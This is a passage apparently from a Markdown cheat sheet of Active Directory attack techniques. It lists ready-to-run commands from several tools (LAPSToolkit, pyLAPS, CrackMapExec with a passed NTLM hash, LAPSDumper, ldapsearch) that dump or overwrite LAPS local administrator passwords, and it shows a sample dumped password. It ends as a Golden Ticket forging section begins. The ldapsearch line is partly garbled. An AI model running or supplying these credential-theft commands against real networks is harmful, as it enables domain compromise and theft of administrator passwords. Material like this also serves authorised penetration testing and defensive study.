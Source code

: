    * [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit)
       ```powershell
       $ Get-LAPSComputers
       ComputerName                Password                                 Expiration         
       ------------                --------                                 ----------         
       example.domain.local        dbZu7;vGaI)Y6w1L                         02/21/2021 22:29:18

       $ Find-LAPSDelegatedGroups
       $ Find-AdmPwdExtendedRights
       ```

   * Powershell AdmPwd.PS
       ```powershell
       foreach ($objResult in $colResults){$objComputer = $objResult.Properties; $objComputer.name|where {$objcomputer.name -ne $env:computername}|%{foreach-object {Get-AdmPwdPassword -ComputerName $_}}}
       ```

 - From linux:

   * [pyLAPS](https://github.com/p0dalirius/pyLAPS) to **read** and **write** LAPS passwords:
       ```bash
       # Read the password of all computers
       ./pyLAPS.py --action get -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       # Write a random password to a specific computer
       ./pyLAPS.py --action set --computer 'PC01$' -u 'Administrator' -d 'LAB.local' -p 'Admin123!' --dc-ip 192.168.2.1
       ```
     
   * [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec):
       ```bash
       crackmapexec smb 10.10.10.10 -u 'user' -H '8846f7eaee8fb117ad06bdd830b7586c' -M laps
       ```

   * [LAPSDumper](https://github.com/n00py/LAPSDumper) 
       ```bash
       python laps.py -u 'user' -p 'password' -d 'domain.local'
       python laps.py -u 'user' -p 'e52cac67419a9a224a3b108f3fa6cb6d:8846f7eaee8fb117ad06bdd830b7586c' -d 'domain.local' -l 'dc01.domain.local'
       ```
   
   * ldapsearch
      ```bash
      ldapsearch -x -h  -D "@" -w  -b "dc=<>,dc=<>,dc=<>" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd`
      ```
     
### Pass-the-Ticket Golden Tickets

Forging a TGT require the `krbtgt` NTLM hash

> The way to forge a Golden Ticket is very similar to the Silver Ticket one. The main differences are that, in this case, no service SPN must be specified to ticketer.py, and the krbtgt ntlm hash must be used.
